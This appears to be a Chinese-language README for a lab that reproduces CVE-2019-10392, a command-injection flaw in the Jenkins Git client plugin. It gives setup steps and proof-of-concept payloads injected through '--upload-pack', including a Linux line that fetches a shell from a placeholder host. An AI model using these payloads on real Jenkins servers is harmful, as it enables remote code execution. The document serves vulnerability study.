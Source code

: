 ## 描述

jenkins最近又出来一个rce，是关于git-client插件的，该插件是默认安装的，然而这个漏洞利用需要高权限，所以影响也就打了折扣。

### 影响范围：

Git client Plugin <= 2.8.4

## 复现
在本地复现搭建jenkins，安装要选插件安装，把git去掉，否则会直接安装最新版本的git插件。`git-client.hpi`是2.8.4的插件，手动安装即可。

新建一个任务，漏洞位于源码管理处，且该漏洞可回显:

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image.jpg)

poc:
命令是通过ProcessBuilder下执行的

window下：--upload-pack=\`id\`

linux下： --upload-pack=wget http://xxxx/shell

macos下弹计算器（我没试过，看奇安信里分析里给出的）: --upload-pack=/Applications/Calculator.app/Contents/MacOS/Calculator 

本项目里的`data.txt`为windows 2008下的请求包


## 注意

如果是在windows下复现，如果出现失败，那么可能是git没有配置环境变量，或者环境变量没有生效，不重启服务器的话可按下图配置

![image](https://github.com/guobaoyou/vul_environment/blob/master/CVE-2019-10392/image2.jpg)

## 总结

已经有分析了，指路：
https://mp.weixin.qq.com/s/7yUFVj0y7PYE3ZszEszjHw
